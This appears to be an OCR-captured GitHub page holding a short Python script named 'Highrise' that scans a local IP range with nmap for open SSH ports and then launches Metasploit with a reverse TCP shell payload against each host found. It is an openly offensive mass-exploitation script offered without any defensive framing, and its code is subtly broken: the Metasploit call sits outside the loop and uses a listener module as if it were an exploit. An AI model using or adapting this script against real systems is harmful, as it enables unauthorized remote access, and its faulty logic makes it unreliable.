 # Highrise-
python
import nmap
import subprocess

# Define the IP address ranges to scan
ip_ranges = ["192.168.1.1-255"]

# Create a new Nmap Scanner object
scanner = nmap.PortScanner()

# Loop through the IP ranges and scan each IP address
for ip_range in ip_ranges:
    scanner.scan(hosts=ip_range, arguments="-p 22")

    # Loop through the scan results and check for open ports
    for ip_address in scanner.all_hosts():
        if scanner[ip_address].state() == "up":
            for port in scanner[ip_address]["tcp"]:
                if scanner[ip_address]["tcp"][port]["state"] == "open":
                    print(f"Found open port {port} on {ip_address}")

                    # Run Metasploit against the IP address and port
subprocess.run(["msfconsole", "-q", "-x", f"use exploit/multi/handler; set LHOST <your IP>; set LPORT 4444; set PAYLOAD linux/x86/shell_reverse_tcp; set RHOST {ip_address}; set RPORT {port}; exploit"])
